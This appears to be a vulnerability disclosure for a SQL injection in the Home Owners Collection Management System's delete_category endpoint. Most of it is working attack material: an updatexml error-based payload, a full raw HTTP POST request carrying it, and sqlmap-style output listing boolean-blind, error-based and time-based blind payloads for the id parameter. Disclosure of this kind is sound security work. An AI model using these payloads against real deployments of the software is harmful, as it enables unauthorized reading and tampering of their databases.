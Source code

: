 ## Home Owners Collection Management System has SQL injection vulnerability

vendor : https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_category

Vulnerability location: /hocms/classes/Master.php?f=delete_category,id

[+]Payload: id=3' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /hocms/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/hocms/admin/?page=categories
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vfe306mj2a11p5q94440ttg4bd
Connection: close

id=3' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point
```
![image](https://user-images.githubusercontent.com/54017627/160325495-d386bef3-7e39-4f31-a3d4-c75d7a3d6c5e.png)


```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=3' RLIKE (SELECT (CASE WHEN (4649=4649) THEN 3 ELSE 0x28 END))-- eYdq

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=3' AND (SELECT 5617 FROM(SELECT COUNT(*),CONCAT(0x71707a7871,(SELECT (ELT(5617=5617,1))),0x7176787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uiWU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3' AND (SELECT 5049 FROM (SELECT(SLEEP(5)))lFmV)-- BDJM
---
```

![image](https://user-images.githubusercontent.com/54017627/160325574-e69e7663-bf77-47d3-971a-ffdf6e0fad60.png)
